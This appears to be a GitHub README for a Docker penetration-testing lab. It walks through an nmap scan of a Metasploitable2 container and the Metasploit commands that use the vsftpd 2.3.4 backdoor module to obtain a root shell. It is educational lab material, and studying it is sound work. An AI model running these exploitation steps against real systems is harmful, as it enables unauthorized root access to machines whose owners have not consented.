 # Metasploitable2 Docker Lab
## Overview
This repository documents a cybersecurity lab that demonstrates the process of **reconnaissance and exploitation**. The lab environment was created using **Docker** to set up a secure, isolated network with a **Kali Linux** container as the attacking machine and a **Metasploitable2** container as the vulnerable target.

The primary objective was to identify and exploit common, well-known vulnerabilities to gain a comman shell on the target system.
***
## Lab Environment Setup
The lab was built using **Docker** and **Docker Compose** on a Windows host machine. The `docker-compose.yml` file defines the two containers and a private network to allow them to communicate. 

**Prerequisites**
* **Docker Desktop**: Running on the host machine.
* **Git**: Installed on the host machine for cloning and version control.

**Setup Instructions**
1. **Clone the Repository**: Clone this repository to your local machine.
```
git clone https://github.com/MSearleProjects/cybersecurity-lab-1-metasploitable.git
cd cybersecurity-lab-1-metasploitable
```
2. **Launch the Containers**: Run the `docker-compose up` command from the root of this directory. This command reads the `docker-compose.yml` file and starts both containers.
```
docker-compose up -d
```
***
## Lab Walkthrough
**Reconnaissance with Nmap**
After launching the containers, the first step was to get a terminal inside the Kali container and perform a network scan to identify open ports and services on the target.
1. **Enter the Kali container**:
```
docker exec -it kali bash
```
2. **Find the target's IP**: From inside the Kali terminal, I used `ping` to find the IP address of the `metasploitable` container.
```
ping metasploitable
```
The IP address that comes back is `172.18.0.3`

3. **Run the Nmap scan**:
```
nmap -sV -sC 172.18.0.3
```
`-sV` means Service Version Detection and tells Nmap to attempt to determine the **service name and version number** of whats running on each port. `-sC` is a shortcut for `--script=default` and tells Nmap to run a set of default scripts against the target which include **vulnerability checks**, **enumeration** and **misconfiguration audits**.

**Findings**
The Nmap scan revealed several services with outdated and vulnerable versions.
* **FTP**: `vsftpd 2.3.4` running on port `21/tcp`.
* **SSH**: `OpenSSH 4.7p1` running on port `22/tcp`.
* **Samba**: `Samba smbd 3.0.20-Debian` running on ports `139/tcp` and `445/tcp`.
* **IRC**: `UnrealIRCd` running on port `6667/tcp`.

The `vsftpd 2.3.4` version was targeted due to a well-known backdoor vulnerability.
***
## Exploitation with Metasploit
The **Metasploit Framework** was used to exploit the `vsftpd` vulnerability and gain command shell on the target system.
1. **Launch** `msfconsole`:
```
msfconsole
```
2. **Search for the exploit**:
```
msf6 > search vsftpd
```
3. **Search and configure the exploit**: The `vsftpd_234_backdoor` module was chosen.
```
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 > set RHOSTS 172.18.0.3
msf6 > exploit
```
4. **Result**: The exploit should successfully create a reverse shell, granting command-line access to the Metasploitable2 container with **root privileges**.
***
## Conclusion
This lab demonstrates the core steps of a penetration test, from initial network scanning to gaining unauthorised access. The `vsfptd` vulnerability, while simple, serves as an example of how critical it is to keep software patched and updated.

**Disclaimer**: This lab was conducted in a controlled, isolated environment for educational purposes. Unauthorised access to any computer system is illegal and uethical.
